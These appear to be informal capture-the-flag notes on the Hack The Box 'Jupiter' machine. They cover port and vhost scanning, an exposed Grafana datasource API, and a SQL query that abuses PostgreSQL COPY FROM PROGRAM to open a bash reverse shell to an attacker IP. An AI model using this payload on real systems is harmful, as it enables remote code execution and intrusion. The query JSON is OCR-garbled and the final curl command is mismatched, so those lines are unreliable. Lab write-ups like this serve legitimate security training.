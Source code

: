PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


![](20230719032339.png)

it shows forbidden pages so that means theere is a way to be authenticated

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]

got a subdomain

$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u jupiter.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://jupiter.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/19 06:23:34 Starting gobuster in VHOST enumeration mode
===============================================================
Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/19 06:24:08 Finished

we reach a kiosk place

![](20230719074017.png)

At http://kiosk.jupiter.htb/api/datasources

```
0	
id	1
uid	"YItSLg-Vz"
orgId	1
name	"PostgreSQL"
type	"postgres"
typeName	"PostgreSQL"
typeLogoUrl	"public/app/plugins/datasource/postgres/img/postgresql_logo.svg"
access	"proxy"
url	"localhost:5432"
user	"grafana_viewer"
database	""
basicAuth	false
isDefault	true
jsonData	
database	"moon_namesdb"
sslmode	"disable"
readOnly	false
```


{
 "queries":[
  {
   "refId":"A",
   "datasource" : {

18 "uidt:"YItSLg-vz",

19 "type’ :"postgres’

20 1,

21 "rawsql" : "CREATE TABLE cmd_exec(cnd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \'bash -i >& /dev/tcp/10.10.14.69/4444 O>E1\"'",
2 "format? : "table,

2 "datasourceld

21 "maxDataPoints" :60000,

= vintervalMs* : 940]

2}

27,

28 “range":{

25 "from':"2023-06-07T19:30:00.0002"
30 "to':"2023-06-07T0 0.0002",
31 vraws{

32 “from: now- 6h" ,

33 "to": "now"

3}

3 1,

36 fromrit,

37 tori

|}

```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}
```